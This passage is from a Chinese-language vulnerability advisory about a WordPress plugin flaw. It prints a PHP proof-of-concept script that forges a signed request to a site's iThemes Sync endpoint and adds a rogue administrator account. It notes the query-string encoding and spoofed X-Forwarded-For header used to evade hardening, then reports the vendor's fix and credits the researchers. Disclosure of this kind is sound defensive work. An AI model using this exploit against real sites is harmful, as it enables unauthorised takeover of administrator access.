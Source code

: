 示例脚本如下：





```
&lt;?php 
// fill in these two 
$user_id='123'; 
$key='(KEY HERE)'; 
 
$action='manage-users'; 
 
$newuser=array(); 
$newuser[0]=array(); 
$newuser[0][0]=array(); 
$newuser[0][0]['user_login']='newuser'; 
$newuser[0][0]['user_pass']='newpass'; 
$newuser[0][0]['user_email']='test@klikki.fi'; 
$newuser[0][0]['role']='administrator'; 
 
$args=array(); 
$args['add']=$newuser; 
 
$salt='A'; 
 
$hash=hash('sha256',$user_id.$action.json_encode($args).$key.$salt); 
 
$req=array(); 
$req['action']=$action; 
$req['arguments']=$args; 
$req['user_id']=$user_id; 
$req['salt']=$salt; 
$req['hash']=$hash; 
 
$data='request='.json_encode($req); 
echo("sending: $datan"); 
 
$c=curl_init(); 
curl_setopt($c, CURLOPT_URL,'https://target.site/?ithemes-sync-reques%74=1'); 
curl_setopt($c, CURLOPT_HTTPHEADER, array('User-Agent: Mozilla','X-Forwarded-For: 123.1.2.3')); 
curl_setopt($c, CURLOPT_POSTFIELDS, $data); 
$res=curl_exec($c); 
 
echo("response: ".json_encode($res)."n"); 
?&gt;
```

通过上述示例，我们在目标系统上添加了一个新的WordPress管理员“newuser”，密码设置为“newpass”。为绕过系统加固，我们对查询字符串参数进行了冗余编码。同理，我们还设置了X-Forwarded-For header。



**厂商回应**

****

Strategy11在2017年10月得知漏洞详情，随后确认漏洞存在，并在2.05.02和2.05.03版本完成了修复。如果没有启用自动更新，用户可以通过点击WordPress插件界面上的“Update”来更新插件，基础版和专业版均对上述漏洞进行了修复。



**贡献者**

****

上述漏洞均由芬兰安全研究团队Klikki Oy的Jouko Pynnön发现。
